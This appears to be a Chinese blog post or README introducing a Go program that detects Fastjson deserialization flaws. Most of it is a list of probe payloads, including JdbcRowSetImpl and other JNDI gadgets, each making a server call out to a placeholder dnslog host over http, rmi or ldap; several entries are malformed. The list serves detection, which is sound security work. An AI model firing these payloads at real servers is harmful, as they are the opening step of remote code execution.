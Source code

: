 
# Golang编写Fastjson检测程序

基于上篇Fastjson文章大多在分析和测试其他师傅的思路，这里实践写一个检测程序

 - [ ] fastjson出网探测语句如下，借鉴blby师傅写过的Python脚本：
       
       {"@type":"java.net.Inet4Address","val":"http://dnslog"}
       
       {"@type":"java.net.Inet6Address","val":"http://dnslog"}
       
       {{"@type":"java.net.URL","val":"http://dnslog"}:"x"}
       
       {"@type":"com.alibaba.fastjson.JSONObject", {"@type":
       "java.net.URL", "val":"http://dnslog"}}""}
       
       Set[{"@type":"java.net.URL","val":"http://dnslog"}]
       
       Set[{"@type":"java.net.URL","val":"http://dnslog"}
       
       {"@type":"java.net.InetSocketAddress"{"address":,"val":"http://dnslog"}}
       
       {{"@type":"java.net.URL","val":"http://dnslog"}
       
       {"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"rmi://dnslog",
       "autoCommit":true}
       
       {"@type":"com.mchange.v2.c3p0.JndiRefForwardingDataSource","jndiName":"rmi://dnslog",
       "loginTimeout":0'}{"@type":"Lcom.sun.rowset.JdbcRowSetImpl;","dataSourceName":"ldap://dnslog",
       "autoCommit":true}
       
       {"@type":"LLcom.sun.rowset.JdbcRowSetImpl;;","dataSourceName":"ldap://dnslog",
       "autoCommit":true}
       
       {"@type":"[com.sun.rowset.JdbcRowSetImpl"[{,"dataSourceName":"ldap://dnslog",
       "autoCommit":true}
       
       {"@type":"org.apache.ibatis.datasource.jndi.JndiDataSourceFactory","properties":{"data_source":"ldap://dnslog"}}
       
       {"a":{"@type":"java.lang.Class","val":"com.sun.rowset.JdbcRowSetImpl"},"b":{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"ldap://dnslog","autoCommit":true}}
       
       {"@type":"com.zaxxer.hikari.HikariConfig","metricRegistry":"ldap://dnslog"}
       
       {"@type":"com.zaxxer.hikari.HikariConfig","healthCheckRegistry":"ldap://dnslog"}
       
       {"@type":"oracle.jdbc.connector.OracleManagedConnectionFactory","xaDataSourceName":"rmi://dnslog"}
       
       {"@type":"org.apache.commons.configuration.JNDIConfiguration","prefix":"ldap://dnslog"}{"@type":"org.apache.commons.proxy.provider.remoting.SessionBeanProvider","jndiName":"ldap://dnslog","Object":"a"}
       
       {"@type":"org.apache.xbean.propertyeditor.JndiConverter","AsText":"rmi://dnslog"}
       
       {"@type":"org.apache.cocoon.components.slide.impl.JMSContentInterceptor",
       "parameters":
       {"@type":"java.util.Hashtable","java.naming.factory.initial":"com.sun.jndi.rmi.registry.RegistryContextFactory","topic-factory":"ldap://dnslog"},
       "namespace":""}
       
